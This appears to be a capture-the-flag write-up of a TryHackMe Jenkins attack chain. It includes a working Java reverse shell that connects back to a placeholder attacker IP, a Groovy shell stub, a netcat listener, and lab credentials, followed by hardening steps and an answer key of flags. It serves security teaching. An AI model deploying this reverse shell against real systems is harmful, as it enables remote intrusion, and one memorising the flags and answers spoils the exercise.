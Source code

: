 # Advent of Cyber - Day 12 Attack Chain

## Defense in Depth

### Learning Objectives
- Understand Attackers mindset
- Understand Defense in Depth strategy
- Implement basic endpoint hardening
- Follow a simple Boot2Root methodology

## Server Information and Connection Instructions

- **Target Machine**: Vulnerable Ubuntu running Jenkins -> Check nmap reports : Jetty(10.0.15) CVE-2023-41900
- **Server Admin Credentials**: Given for blue team purposes
  - Username: admin
  - Password: SuperStrongPassword123

## Guided Walkthrough of the Attack Chain

1. **Getting a Web Shell**
   - Access Jenkins on default port: http://10.10.45.195:8080 
   - In the original walkthrough they get a Groovy script to establish a reverse shell :
   - Explore Jenkins features  and navigate to Manage Jenkins > Script Console
   ```groovy
   // Groovy Reverse Shell Script
   String host = "attacking machine IP here";
   int port = 4444;
   String cmd = "/bin/bash";
   // ... (complete script as provided)
   
   - But I went this way : 
   				- Access and put a java revshell http://10.10.45.195:8080/script/jqueryplugins/dataTables/extras/TableTools/media/swf/ZeroClipboard.swf -> check dirsearch report
   				
   				```java 
				import java.io.InputStream;
				import java.io.OutputStream;
				import java.net.Socket;

				public class shell {
				    public static void main(String[] args) {
					String host = "<IP_LOCAL>";
					int port = 4444;
					String cmd = "sh";
					try {
					    Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
					    Socket s = new Socket(host, port);
					    InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
					    OutputStream po = p.getOutputStream(), so = s.getOutputStream();
					    while (!s.isClosed()) {
						while (pi.available() > 0)
						    so.write(pi.read());
						while (pe.available() > 0)
						    so.write(pe.read());
						while (si.available() > 0)
						    po.write(si.read());
						so.flush();
						po.flush();
						Thread.sleep(50);
						try {
						    p.exitValue();
						    break;
						} catch (Exception e) {}
					    }
					    p.destroy();
					    s.close();
					} catch (Exception e) {}
				    }
				}
				
   - Start a netcat listener on your attacking machine: `nc -nlvp 4444`
   - Upon successful execution, a connection should be established on the netcat listener.

2. **Getting the tracy User and Root**
   - Discover an interesting bash script in `/opt/scripts/backup.sh`
   - Extract user credentials (tracy) and find clues for SSH access
   - Log in as tracy using SSH and discover sudo privileges

3. **Guided Hardening of the Server**
   - **Removal of tracy from the Sudo Group**
     - Remove tracy from the sudo group: `sudo deluser tracy sudo`
     - Confirm removal: `sudo -l -U tracy`

   - **Hardening SSH**
     - Edit `/etc/ssh/sshd_config` to disable password-based logins
     - Restart SSH service: `sudo systemctl restart ssh`

   - **Stronger Password Policies**
     - Emphasize the importance of strong passwords and periodic changes

   - **Promoting Zero Trust**
     - Revert Jenkins config to limit access: edit `config.xml.bak` and restart Jenkins service

## Conclusion

- Recap of defensive layers implemented
- Importance of defensive layers in a real-world scenario

## Questions and Answers

1. **What is the default port for Jenkins?**
   - 8080

2. **What is the password of the user tracy?**
   - 13_1n_33

3. **What's the root flag?**
   - ezRo0tW1thoutDiD

4. **What is the error message when you log in as tracy again and try sudo -l after its removal from the sudoers group?**
   - Sorry, user tracy may not run sudo on Jenkins.

5. **What's the SSH flag?**
   - **************************

6. **What's the Jenkins flag?**
   - FullTrust_has_n0_Place1nS3cur1ty
				
